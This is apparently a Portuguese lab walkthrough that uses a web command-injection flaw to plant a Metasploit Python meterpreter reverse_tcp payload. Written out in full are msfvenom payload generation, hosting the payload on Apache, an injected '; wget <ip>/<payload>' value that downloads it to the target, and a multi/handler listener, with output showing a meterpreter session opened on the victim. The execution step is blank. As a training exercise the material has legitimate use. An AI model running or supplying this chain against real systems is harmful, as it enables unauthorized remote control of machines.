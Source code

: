 # Command Injection com Meterpreter

**Objetivo:** repetir o exercício de invasão web com command injection, porém carregando um payload na máquina alvo para nos permitir acesso a um meterpreter.
 
## Criação do payload

Criaremos o payload através do aplicativo msfvenom do metasploit.

### Passo 1 - Procura e escolha o payload

Comando: `msfvenom -l payloads | grep <filtro>`

```
$ msfvenom -l payloads | grep meterpreter | grep python
                                       
    cmd/unix/python/meterpreter/bind_tcp                               Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection
    cmd/unix/python/meterpreter/bind_tcp_uuid                          Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection with UUID Support
...
    python/meterpreter/reverse_tcp                                     Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker
    python/meterpreter/reverse_tcp_ssl                                 Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Reverse Python connect back stager using SSL
    python/meterpreter/reverse_tcp_uuid                                Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker with UUID Support
    python/meterpreter_bind_tcp                                        Connect to the victim and spawn a Meterpreter shell
    python/meterpreter_reverse_http                                    Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_https                                   Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_tcp                                     Connect back to the attacker and spawn a Meterpreter shell
```
Selecionamos o payload **python/meterpreter/reverse_tcp**. 

### Passo 2 - Configuração e criação do payload

Para conhecer as opções de configuração do payload, usamos o msfconsole do metasploit:

```
$ msfconsole                                                                                    
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  
       =[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use python/meterpreter/reverse_tcp

msf payload(python/meterpreter/reverse_tcp) > show options

Module options (payload/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(python/meterpreter/reverse_tcp) > exit
```
Criamos o payload informando o IP e a porta de escuta:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=6666 >>meu_payload.py
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 432 bytes
```
`>>meu_payload` informa o arquivo de saída com o payload. No caso, meu_payload.py gravado no diretório corrente.
```
$ ls *.py                                                                                
meu_payload.py
```
## Disponibilização do payload

### Passo 1 - iniciar o serviço web
```
$ sudo service apache2 start
[sudo] senha para OpsShadow: 
```
### Passo 2 - copiar o payload para o serviço web
```
$ sudo cp meu_payload.py /var/www/html/                                                         

$ ls /var/www/html                                                         
index.html  index.lighttpd.html  index.nginx-debian.html  meu_payload.py
```
### Passo 3 - copiar o payload para a máquina alvo
`; wget <ip>/<payload>`
### Passo 4 - encerrar o serviço web
`$ sudo service apache2 stop `
## Execução do ataque

### Passo 1 - iniciar a escuta
Iniciamos a escuta informando o IP e a porta de escuta (a  mesma do payload), e o payload
```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10

msf exploit(multi/handler) > set LPORT 6666 
LPORT => 6666
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666

msf exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
```
### Passo 2 - Executar o payload no alvo



### Resultado
```
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666 
[*] Sending stage (24772 bytes) to 192.168.1.33
[*] Meterpreter session 1 opened (192.168.1.10:6666 -> 192.168.1.33:38448) at 2025-09-12 00:10:58 -0300

meterpreter >
```
Abertura do meterpreter com acesso a máquina alvo.
